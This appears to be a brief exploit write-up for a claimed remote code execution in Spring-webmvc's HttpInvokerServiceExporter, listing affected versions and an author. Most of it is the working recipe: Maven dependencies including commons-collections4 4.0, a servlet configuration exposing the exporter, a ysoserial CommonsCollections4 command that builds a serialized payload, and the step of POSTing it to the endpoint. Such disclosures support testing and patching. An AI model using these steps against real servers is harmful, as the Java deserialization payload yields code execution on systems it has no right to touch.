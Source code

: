 # Spring-webmvc remote code execution vulnerability #

**project name**： Spring-webmvc
**Versions Affected**: 5.2.x, 5.1.x, 
**Exploit Author**: Lynx@vfsec.com
**Homepage**: https://spring.io/projects/spring-framework , https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html

##exploit_detail##:
    
Build the Maven project for Spring-WebMVC RPC(Remote Method Call)，pom.xml：
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-webmvc</artifactId>
    <version>5.2.8.RELEASE</version>
</dependency>

example-servlet.xml:
<bean name="/hello" class="org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter">
    <property name="service">
        <bean class="com.example.springweb.mvc.simpleHelloWorld"></bean>
    </property>
    <property name="serviceInterface">
        <value>com.example.springweb.mvc.HelloWorld</value>
    </property>
</bean>


USE ysoserial_tool to generate the payload，command is `java -jar ysoserial_tools/ysoserial-0.0.5.jar CommonsCollections4 "calc" > ysoserial_tools/test.ser`
Submit test.ser as a POST request to the Spring-webmvc-rpc API
